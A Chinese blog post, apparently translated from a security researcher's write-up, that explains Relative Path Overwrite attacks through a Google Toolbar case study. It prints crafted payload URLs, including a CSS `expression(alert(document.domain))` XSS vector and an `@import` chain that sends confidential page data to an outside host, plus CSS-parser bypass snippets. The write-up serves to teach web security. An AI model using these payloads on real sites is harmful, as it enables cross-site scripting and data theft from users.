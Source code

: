 ```yaml
---
title: RPO攻击
date: 2017-03-27 23:51:33
categories: Web安全
tags:
    - RPO
---
```


## 什么是RPO

RPO(Relative Path Overwrite)相对路径覆盖，是一种利用相对URL路径覆盖目标文件的一种攻击手段。

<!-- more -->

## google案例

翻译自[http://blog.innerht.ml/rpo-gadgets/](http://blog.innerht.ml/rpo-gadgets/).

### 识别RPO

RPO依赖于CSS解析器能够解析那些不严谨的语法内容，这是RPO攻击的基础条件，寻找RPO攻击的第一步是检查网页是否按正确的文档类型解析，然后寻找相对CSS样式的导入。

作者发现Google Toolbar的一个目标URL: `http://www.google.com/tools/toolbar/buttons/apis/howto_guide.html`, 该页面用相对路径导入CSS样式。

```html
<html>  
<head>  
<title>Google Toolbar API - Guide to Making Custom Buttons</title>  
<link href="../../styles.css" rel="stylesheet" type="text/css" />
```

下一步是找出目标服务器解析路径的方式。对浏览器来说，目录是通过 `/` 来分隔的，然而对服务器来说，路径中包含 `/`并不意味着存在一个目录。例如，JSP接收路径参数是以`;`作为分隔符的，例如`http://example.com/path;/notpath`，而浏览器并不识别这种模式，而当做是存在目录的路径。

同样，Google Toolbar也有它自己独特的解析路径的方式。在发送请求给服务器之前，会对请求进行处理并解码所有的路径，但是谷歌浏览器并不会强制转换`%2f`为`/`,因此可以将路径中的`/`替换为`%2f`。访问`http://www.google.com/tools/toolbar/buttons/apis%2fhowto_guide.html`

{% asset_img google_toolbar.png %}

针对上面的链接，服务器和浏览器对路径的解析是不一致的.

* 服务器视角: `/tools/toolbar/buttons/apis/` + howto_guide.html
* 浏览器视角: `/tools/toolbar/buttons/` + apis%2fhowto_guide.html
* 导入的css样式: `/tools/` + ~~toolbar/buttons/../../~~style.css

以上"+"左边高亮部分表示基本路径，浏览器认为基本路径是 `/tools/toolbar/buttons/` 而不是 `/tools/toolbar/buttons/apis/`, 因此导入相对路径的样式`../../style.css` 会额外多跳一层目录路径，本应该导入css的路径为"tools/toolbar/style.css", 而现在为"tools/style.xss"。

除了跳目录以外，还能制作假目录，例如，我们想在导入的样式路径为`/tools/fake/styles.css`, 可以构造如下url:`http://www.google.com/tools/fake/..%2ftoolbar/buttons/apis%2fhowto_guide.html`

* 服务器视角: /tools/~~fake/../~~toolbar/buttons/apis/ + howto_guide.html
* 浏览器视角: tools/fake/..%2ftoolbar/buttons/ + apis%2fhowto_guide.html
* 导入的css样式: /tools/fake/~~..%2ftoolbar/buttons/../../~~ + style.css

这里我们添加了两个虚假的路径:`fake/`和`..%2f`, 以便他们能在服务器相互抵消，同时浏览器认为`fake/`是一个真实的目录，并且，`..%2ftoobar`是另外一个目录。理论上，我们可以再根路径上导入任何样式，通过`https://www.google.com/*/styles.css`, 然而不幸的是代理只在` https://www.google.com/tools/*/styles.css`路径上有效，换句话说，任何在`/tools/`路径之外的路径采用编码魔术(`%2f`代替`/`)将不起作用, 也就是说，只能在`https://www.google.com/tools/*/styles.css.`导入任何样式。

我试图四处寻找，发现任何url都是静态的，除了,
`http://www.google.com/tools/toolbar/buttons/gallery`会重定向到`http://www.google.com/gadgets/directory?synd=toolbar&frontpage=1`。现在事情变得有趣了，参数`q`是作为搜索参数，并且反应在页面上，让我们注入一个简单的payload:`http://www.google.com/gadgets/directory?synd=toolbar&frontpage=1&q=%0a{}*{background:red}`

{% asset_img q_red.png %}

这非常棒，只要我们能通过某种方式导入样式参数`q`. 最后一步是找出如何在我们引用它作为样式的同时，维持查询字符串。RPO需要持续的注入,因为导入样式表并不包含查询字符串本身。但是由于路径解码的行为，我们能使用如下payload导入样式。

`http://www.google.com/tools/toolbar/buttons%2fgallery%3fq%3d%250a%257B%257D*%257Bbackground%253Ared%257D/..%2f/apis/howto_guide.html`

* 服务器视角: /tools/toolbar/buttons/~~gallery?q=%0a{}*{background:red}/../~~/apis/ + howto_guide.html
* 浏览器视角: /tools/toolbar/buttons%2fgallery%3fq%3d%250a%257B%257D*%257Bbackground%253Ared%257D/..%2f/apis/ + howto_guide.html
* 导入的css样式:

    - /tools/toolbar/buttons%2fgallery%3fq%3d%250a%257B%257D*%257Bbackground%253Ared%257D/~~..%2f/apis/../../~~style.css
    - /tools/toolbar/buttons/gallery?q=%0a{}*{background:red}/style.css
    - /gadgets/directory?synd=toolbar&frontpage=1&q=%0a{}*{background:red}/style.css

{% asset_img RPO_red.png %}

我们还能做得更好么？当然，我们改变payload为 CSS XSS向量`expression(alert(document.domain))`，并启动IE8: `http://www.google.com/tools/toolbar/buttons%2fgallery%3fq%3d%250a%257B%257D*%257Bx%253Aexpression(alert(document.domain))%257D/..%2f/apis/`

{% asset_img rpo-expression-alert.png %}

### 使用RPO加载其他页面

我们可以使用RPO去偷其他页面的数据。CSS有一个有意思的地方，在怪异模式下，松散解析适用于所有导入的样式表，只要他们同源，这开辟了一个新的可能，如果导入的样式表包含机密数据和注入点，我们就能通过CSS魔法偷走他们。但这样的页面有最低要求如下：

* 注入点在机密数据之前出现
* 注入点允许`%0a`, `%0c` 或 `%0d`，以便于解析器的状态可以从一个错误的状态中恢复过来
* 机密数据和它周围不能包含换行符

`http://www.google.com/tools/toolbar/buttons%2fgallery%3fq%3d%250a%257B%257D%2540import%2527%252Fsearch%253Fnord%253D1%2526q%253D%257B%257D%25250a%2540import%252527%252F%252Finnerht.ml%253F%2522/..%2f/apis/howto_guide.html`

{% asset_img rrpo-gadget-chain-2 %}

## RPO 利用原理和条件

* 相对路径导入css样式
* 浏览器解析路径和服务器不一致，浏览器将服务器返回的不是css的文件当做CSS文件解析
* CSS解析器忽略非法的内容

### CSS解析器

CSS2 规范中指出，"在某些情况下，用户代理必须忽略非法样式的一部分”，规范定义忽略意味着解析非法部分(为了找到它开始和结束的地方), 同时又当它不存在。规范其他地方又补充到，“对于混合CSS内容和其他内容的文件，CSS会忽略非法的内容”。

那么，我们可以通过植入CSS代码，欺骗CSS解析器去忽略之前的不合法的语法内容，从而加载我们植入的CSS代码，最好的方法是选择一个无效的“选择器”，css会忽略之前所有的非法内容。

如下有两种利用选择器去忽略非法内容的方式，原理是CSS解析器解析`}`或`{}`都将工作

```
}*{color:#ccc;}
{}}*{color:#ccc;}
```

## Refer

* [http://edu.aqniu.com/article/65](http://edu.aqniu.com/article/65)
* [http://www.thespanner.co.uk/2014/03/21/rpo/](http://www.thespanner.co.uk/2014/03/21/rpo/)
* [http://blog.innerht.ml/rpo-gadgets/](http://blog.innerht.ml/rpo-gadgets/)
* [http://blog.portswigger.net/2015/02/prssi.html](http://blog.portswigger.net/2015/02/prssi.html)
